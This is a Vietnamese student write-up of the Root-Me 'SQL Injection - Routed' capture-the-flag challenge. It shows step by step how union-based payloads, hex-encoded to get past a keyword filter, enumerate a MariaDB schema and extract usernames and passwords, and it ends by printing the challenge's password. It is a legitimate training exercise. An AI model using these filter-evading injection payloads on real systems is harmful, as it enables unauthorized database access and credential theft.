# Challenge: SQL Injection - Routed
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-Injection-Routed

- Về cơ bản, bài này có 2 form, không có truy vấn bài viết, 2 form này gồm 1 form đăng nhập và 1 form search





- Theo đà những bài trước mạnh dạng thử ngay với lỗi kết nối union, kiểm tra ngày bằng cách nhập ở ô input `abc'`, ta thấy nó có xuất hiện lỗi



- Có khả năng bị lỗi union, ta thử với input là `abc' order by 3 -- -` 



> Kết quả không khả quan cho lắm, server đã thực hiện lọc hay chặn từ khóa rồi,...

- Tra thông tin từ google với từ khóa `routed sql` ta được thấy được lỗi routed-sql-injection từ nhiều nguồn, ta tìm đại một bài đọc để hiểu hơn về nó. Về cơ bản thì nó sẽ dùng 2 truy vấn, đầu ra của truy vấn đầu tiên, truy vấn mà bạn chạy, được sử dụng làm đầu vào cho truy vấn thứ hai. Truy vấn thứ hai sẽ hiển thị kết quả cho bạn với tư cách là người dùng.
https://improsec.com/tech-blog/routed-sql-injection

- Thử với input `abc' union select 2 -- `



- Thử với input `abc'  union select ' order by 3 -- -- ` --> Attack detected!

- Theo như bài đã đọc ta thử convert `' order by 3 -- ` sang mã hex khi đó ta được input `abc'  union select 0x27206f726465722062792033202d2d20-- `.



- Khá ổn ko bị `Attack detected!` là ổn rồi, tiếp ta giảm xuống thành 3 
`abc'  union select 0x27206f726465722062792032202d2d20 -- `.



- Dựa vào hình thứ 3 ta thấy server đang dùng cơ sở dữ liệu `MariaDB` nên câu lệnh sử dụng cũng khác so với những bài trước, nội dung cần chèn để lấy được thông tin các bảng lúc này sẽ là `abc' union select ' union select 1,table_name from information_schema.tables where table_schema = database() -- -- `. convert sang dạng hex lúc này sẽ là `abc' union select 0x2720756e696f6e2073656c65637420312c7461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d61203d2064617461626173652829202d2d20-- `.



- Bộ dữ liệu chỉ có 1 bảng là users
- Lấy ra các cột trong bảng users, `abc' union select ' union select 1,column_name from information_schema.columns where table_name = 'users' -- -- `= `abc' union select 0x2720756e696f6e2073656c65637420312c636f6c756d6e5f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d65203d2027757365727327202d2d20-- `. 



Vì màn hình chỉ cho ra 1 output do vậy ta chỉ nhận 1 giá trị là `id` nên ta cần thủ thuật để lấy những trường khác
- Lấy ra trường thứ 2 của bảng users, `' union select 1,column_name from information_schema.columns where table_name = 'users' and column_name!='id' -- ` --> login



- Lấy ra trường thứ 3 của bảng users, `' union select 1,column_name from information_schema.columns where table_name = 'users' and column_name!='id' and column_name!='login'-- ` -->password



> Như vậy ta chỉ cần 2 trường này mà thôi login và password...

- Lấy ra username password từ bảng users, `abc' union select ' union select login,password from users-- -- `. = `abc' union select 0x2720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d20-- `



## Kết quả password là `qs89QdAs9A`